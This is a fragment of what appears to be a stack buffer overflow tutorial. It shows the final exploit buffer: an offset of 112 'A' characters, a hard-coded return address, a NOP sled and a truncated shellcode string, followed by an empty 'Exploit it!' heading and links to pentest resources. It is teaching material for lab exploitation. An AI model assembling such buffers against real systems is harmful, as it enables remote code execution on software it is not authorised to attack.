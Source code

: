 ```
padding = "\x90" * 16
```

### Final Buffer

```
 prefix = ""
 offset = 112
 overflow = "A" * offset
 retn = "\x56\x23\x43\x9A" # Jump Poit Found
 padding = "\x90" * 16 # NOPs
 payload = "\xdb\xde\xba\x69\xd7\xe9\xa8\xd9\x74\x24\xf4\x58\x29\xc9\xb1..." #Shell Code script generated
 postfix = ""
    
 buffer = prefix + overflow + retn + padding + payload + postfix
```

# 6. Exploit it!






## More Resources

https://github.com/Tib3rius/Pentest-Cheatsheets/tree/master/exploits

https://github.com/gh0x0st/Buffer_Overflow

https://github.com/justinsteven/dostackbufferoverflowgood/blob/master/dostackbufferoverflowgood_tutorial.pdf

